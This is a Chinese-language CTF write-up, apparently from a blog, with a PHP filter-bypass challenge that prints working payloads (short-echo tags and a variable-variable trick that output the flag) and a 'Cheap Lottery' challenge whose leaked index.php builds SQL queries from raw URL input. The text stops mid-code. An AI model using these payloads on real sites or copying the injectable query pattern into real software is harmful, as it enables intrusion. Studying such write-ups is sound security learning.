 没办法等于，于是尝试用eval直接输出，然鹅输出的函数都过滤惹

想到`<?php echo $a; ?>` 有个简写版： `<?=$a;?>`

于是构造
```
111111111111111111111111111111?><?=${%27fl%27.%27ag%27}?>
```

woc？？.也被过滤惹

emmmm`?flag=$a=%27flaa%27;$a{3}=%27g%27;1111111111111111111?><?=$$a?>` 这样~

！鸡冻

### Cheap Lottery

首先终于发现一个不是直接给源码的题，当然是玩一发啦~然而等60s真的是烦==（本来就不是让你玩的辣！

发现三种不同的返回。。就没一次对惹一个的嘛！（满脸非气QAQ

在robots.txt发现/backup/

ini.sql:

![CpDHD1.png](https://s1.ax1x.com/2018/04/03/CpDHD1.png)

其中注意到ENGINE=InnoDB DEFAULT CHARSET=utf8;不叽到是不是故意强调的~

index.php:

```
<?php
	require __DIR__."/_config.php";
	$sql = new mysqli($sql_host, $sql_username, $sql_password, $sql_dbname) or die("SQL Server Down T.T");

	$name = "guest_".$_SERVER['REMOTE_ADDR'];
	$result = $sql->query("SELECT * FROM `lottery` WHERE `name`='{$name}';");
	$row_guest = $result->fetch_assoc();
	unset($name, $result);

	if(isset($_GET['lottery']) && is_array($_GET['lottery']) && count($_GET['lottery']) == 5){ // buy request

		if(isset($row_guest)){ // already bought

			$msg = "You already bought a lottery ticket at ".date('Y-m-d H:i:s', $row_guest['time']).".";
			$buy_enable = false;

		}else{ // not bought yet, but buy now

			// insert real answer
			$name = "admin_".$_SERVER['REMOTE_ADDR'];
			$time = time();
			$nums = implode(",", [ mt_rand(1, 100), mt_rand(1, 100), mt_rand(1, 100), mt_rand(1, 100), mt_rand(1, 100) ]);
			$sql->query("INSERT INTO `lottery`(`name`, `time`, `nums`) VALUE('{$name}', '{$time}', '{$nums}');");
			unset($name, $time, $nums);

			// insert my answer
			$name = "guest_".$_SERVER['REMOTE_ADDR'];
			$time = time();

			$url_query = urldecode(parse_url($_SERVER['REQUEST_URI'], PHP_URL_QUERY));
			$nums = preg_replace("/[a-zA-Z\[\]\=]/", "", $url_query);
			$nums = strtr($nums, "&", ",");
```